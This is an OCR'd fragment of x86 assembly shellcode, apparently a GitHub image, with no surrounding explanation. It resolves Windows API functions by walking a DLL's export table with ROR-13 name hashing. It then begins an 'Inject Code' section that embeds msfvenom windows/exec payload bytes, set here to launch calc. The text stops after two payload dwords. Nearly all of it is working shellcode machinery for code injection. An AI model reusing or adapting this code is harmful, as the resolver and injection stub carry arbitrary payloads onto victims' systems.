     find_function:
        pushad
        mov ebp, [esp+0x24]
        mov eax, [ebp+0x3C]
        mov edx, [ebp+eax+0x78]
        add edx, ebp
        mov ecx, [edx+0x18]
        mov ebx, [edx+0x20]
        add ebx, ebp
    find_function_loop:
        jecxz find_function_finished
        dec ecx
        mov esi, [ebx+ecx*4]
        add esi, ebp
        
    compute_hash:
        xor edi, edi
        xor eax, eax
        cld
    compute_hash_again:
        lodsb
        test al, al
        jz compute_hash_finished
        ror edi, 0x0D
        add edi, eax
        jmp compute_hash_again
    compute_hash_finished:
    find_function_compare:
        cmp edi, [esp+0x28]
        jnz find_function_loop
        mov ebx, [edx+0x24]
        add ebx, ebp
        mov cx, [ebx+2*ecx]
        mov ebx, [edx+0x1C]
        add ebx, ebp
        mov eax, [ebx+4*ecx]
        add eax, ebp
        mov [esp+0x1C], eax
    find_function_finished:
        popad
        ret
        
    ; ======== Function: resolve_symbols_for_dll
    resolve_symbols_for_dll:
        lodsd
        push eax
        push edx
        call find_function
        mov [edi], eax
        add esp, 0x08
        add edi, 0x04
        cmp esi, ecx
        jne resolve_symbols_for_dll
    resolve_symbols_for_dll_finished:
        ret
        
    ; ======= Inject Code
    ; Payload   
    injected_code: 
    call injected_code_return  
    ; msfvenom -p windows/exec -a x86 --platform windows CMD=calc -f dword  
    ; No encoder specified, outputting raw payload  
    ; Payload size: 192 bytes  
    dd 0x0082e8fc 
    dd 0x89600000 